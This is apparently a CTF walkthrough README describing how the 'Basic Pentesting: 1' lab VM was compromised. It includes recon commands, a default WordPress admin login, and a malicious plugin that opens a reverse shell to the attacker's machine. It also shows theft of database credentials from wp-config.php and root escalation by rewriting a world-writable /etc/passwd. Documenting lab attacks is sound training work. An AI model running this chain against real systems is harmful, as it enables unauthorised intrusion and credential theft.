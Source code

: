 # CTF-Walkthrough
This repository contains a list of CTFs/vulnerable virtual machines which I have attempted to pick up CTF skills.

# Basic Pentesting: 1
By Josiah Pierce  

* After the VM has been booted up, we are greeted with a login page that request for the password of user marlinspike.
* The IP address of the VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the VM. No nmap scans are thus needed.
* The IPv4 address of the VM is 192.168.110.135.
* From our Kali VM, execute `nmap -sS 192.168.110.135`.
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). These results are loaded instantly after the command is executed - it is likely that the scan result was cached(?).
* We visit 192.168.110.135 and find a web server running. The page says "It works!".
* Note: Viewing the page source reveals no additional information.
* Note: /admin, /login.php, /robots.txt are invalid pages as well.
* Though the page also said that "no content has been added yet", we cannot necessarily trust it: run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put 192.168.110.135 into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in /usr/share/dirbuster/wordlists. We will use `directory-list-lowercase-2.3-small.txt` for a start. We will also use `30 threads`.
* While waiting for dirbuster to do its job, we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-content`, `wp-includes`, etc.
* With 192.168.110.135/secret, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there was no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`. A very likely reason that the page was loading slowly is that the browser was trying to resolve vtcsec, but was unable to do so eventually.
* Next, open our Hosts file in Kali: `sudo nano /etc/hosts` and add in 2 entries: `192.168.110.135 vtcsec` and `192.168.110.135 vtcsec.com`. Save the file once done. What this means is that the IP address of vtcsec is determined by us to be 192.168.110.135, and any  accesses to vtcsec will access 192.168.110.135, instead of trying to find out its IP address from a DNS server.
* Note: The vtcsec.com mapping is added just in case there might be a case where there is a `.com` domain extension for one of the hyperlinks in the WordPress page, though we have yet to see one so far.
* Reload `192.168.110.135/secret` and volia, we see that the page has been properly loaded. This is because the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There is no interesting content on the site's post, so we head to the Login page of the WordPress site and attempt to login using the username `admin` and a random password. Using a random password allows us to check if an account with the username admin exists. The error message from an invalid login, that "the password you entered for the username admin is incorrect" confirms so. This is a form of information leakage in my opinion on WordPress' part.
* Next, we attempt a quick guess with the password `admin` for the admin account, and access is granted. No kind of bruteforcing is required here.
* Head to the `Plugins` page and install `malicious-wordpress-plugin` by `wetw0rk` [(GitHub link)](https://github.com/wetw0rk/malicious-wordpress-plugin). Once it is installed on the WordPress site, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by opening the Git repository from our terminal, and execute `python wordpwn.py 192.168.110.132 4000`. The IP address in the parameter is that of the Kali machine.
* The payload is then generated in a .zip file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (`GotEm`) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only commented codes in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval functions.
* Next, we head to `vtcsec/secret/wp-contet/plugins/malicious/wetw0rk_maybe.php`.
* Heading back to our Kali terminal, we see that a session has been opened, and enter `shell`. Executing `whoami`, we see that we are www-data. We have now successfully logged into the victim VM.
* From the reverse shell which we have gotten, we can go up a few levels of directory to the one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php /root`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and password `arootmysqlpass`.
* Side-note: We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` [(GitHub link)](https://github.com/pentestmonkey/unix-privesc-check) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems".
* From our reverse shell, cd to `/var/www/html`, which hosts the secret page. We will now upload the tool to the victim VM: `upload /root/unix-privesc-check`.
* Give executable permissions to the script via chmod, and then `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to the output text file. Next, download output.txt to /root.
* Search for the string "WARNING" output.txt and we see that one of the findings is that `/etc/passwd` can be written by anyone. Download the /etc/passwd file to /root.
* The first line of /etc/passwd is `root:x:0:0:root:/root:/bin/bash`. We see an `x`, which is a holding place for root's "encrypted password". Traditionally, this field actually stored the user's encrypted password. Modern Unix systems store encrypted passwords in a separate file (the shadow password file) that can be accessed only by privileged users.
* However, we can overwrite the `x` with a hash of a known password.
* Run `openssl passwd -1`, and enter a simple password (e.g. `pass`). `openssl passwd` computes the hash of our password typed at run-time in this case. Replace the `x` with our hash value, save the file, and upload the file back to the victim VM.
* Note: `-1` means the use of MD5 based BSD password algorithm 1.
* Execute `su root -l`, but there is an error stating that su must be run from a terminal. Execute `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn a proper shell.
* Note: `-l` means `--login`, i.e. to start the shell as a login shell with an environment similar to a real login.
* Enter our password created above (e.g. `pass`), and we have got root access!
